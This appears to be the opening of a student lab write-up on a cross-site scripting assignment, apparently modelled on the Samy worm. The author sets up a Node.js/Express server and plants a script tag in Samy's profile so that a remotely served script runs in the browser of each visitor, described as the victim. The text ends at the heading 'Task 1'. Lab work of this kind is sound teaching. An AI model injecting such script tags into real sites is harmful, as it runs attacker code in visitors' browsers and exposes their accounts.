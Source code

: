 # Setup
In this assignment I am creating a server using node js and express. By the help of express I am broadcasting some scripts. By the following code snippet the script_{id}.js is recieved by the victim who is visiting Samy´s profile and the code in the script_{id}.js is executed in his browser.
```html
<script type=text/javascript src=http://localhost:3030/script_{id}.js></script>
```
The above code is in the description of Samy´s profile.

# Task 1
